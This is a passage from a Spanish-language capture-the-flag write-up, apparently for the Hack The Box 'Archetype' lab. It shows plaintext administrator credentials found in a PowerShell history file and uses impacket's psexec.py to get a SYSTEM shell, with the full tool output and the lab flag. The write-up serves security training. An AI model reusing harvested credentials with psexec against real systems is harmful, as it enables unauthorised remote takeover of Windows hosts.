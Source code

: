 Mostrando:

```powershell
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

Y vemos que hay credenciales en texto plano para el usuario `administrator`, con contraseña `MEGACORP_4dm1n!!`.

### Accediendo como administrador

Para conseguir una shell como administrador, utilizaremos otro módulo de [[impacket]], en este caso, `psexec.py`:

```shell
python3 psexec.py administrator@<ip>
```

Lo que nos da una shell de administrador (`nt_autority\system`):

```shell
Impacket v0.10.1.dev1+20230207.122134.c812d6c7 - Copyright 2022 Fortra

Password:
[*] Requesting shares on 10.129.238.95.....
[*] Found writable share ADMIN$
[*] Uploading file UXJjyeRa.exe
[*] Opening SVCManager on 10.129.238.95.....
[*] Creating service OaSR on 10.129.238.95.....
[*] Starting service OaSR.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Ya solo queda buscar la flag que está en `C:\Users\Administrator\Desktop` (`b91ccec3305e98240082d4474b848528`).